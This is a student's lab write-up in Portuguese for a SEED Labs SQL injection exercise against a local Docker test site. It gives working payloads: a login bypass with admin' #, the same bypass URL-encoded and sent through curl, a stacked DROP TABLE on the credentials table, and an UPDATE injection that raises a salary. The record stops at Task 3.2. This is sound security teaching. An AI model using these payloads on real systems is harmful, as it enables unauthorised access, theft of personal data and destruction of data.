


# SQL Injection Attack

## Setup

```bash
sudo nano etc/hosts # colocar '10.9.0.5 www.seed-server.com'
$ dcbuild # docker-compose build
$ dcup # docker-compose up
$ docksh f3 # Abrir uma shell no MySQL container
```

## Tasks

### Task 1: Get Familiar with SQL Statements

```bash
$ mysql -u root -pdees
$ use sqllab_users;
```

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```


###  Task 2: SQL Injection Attack on SELECT Statement

#### Task 2.1 - Login in adminstrator mode from webpage

Aceder ao site "www.seed-server.com".

A query é frágil neste segmento

```sql
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```

A password é hashed mas o nome não. Basta colocar admin e comentar a segunda parte, obtendo assim acesso às credenciais de todos os utilizadores

```note
username: admin' #
```


#### Task 2.2 - Login in adminstrator mode from command line

Usamos o mesmo comando mas através de um pedido GET. Um exemplo seria:

```bash
curl "www.seed-server.com/unsafe_home.php?username=USER&Password=PASS"
```

Com o mesmo input da secção anterior, cifrado (%27 é plica, %23 é o hastag).

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Com o comando anterior obtivemos o código HTML de toda a página que continha os dados pessoais dos utilizadores


#### Task 2.3 - Append a new SQL statement

Podemos adicionar novos comandos SQL usando ";". Para isso, modificamos no nosso input malicioso inicial para que fizesse um side-effect. Por exemplo, eliminar a tabela de credenciais:

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```

No entanto deu erro. Segundo [esta fonte](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php), a extensão de MySQL utilizada pelo PHP do servidor tem uma proteção que impede a execução de múltiplas queries.




### Task 3: SQL Injection Attack on UPDATE Statement

#### Task 3.1 - Modify your own salary

Após dar login com a alice, 11, e na parte de edit profile. Apesar de password ser hash, o phone number está desprotegido. Usando a mesma técnica:. Explicar plica.

```sql
933667378',Salary='9999999
```

Bingo:



#### Task 3.2 - Modify other people’ salary

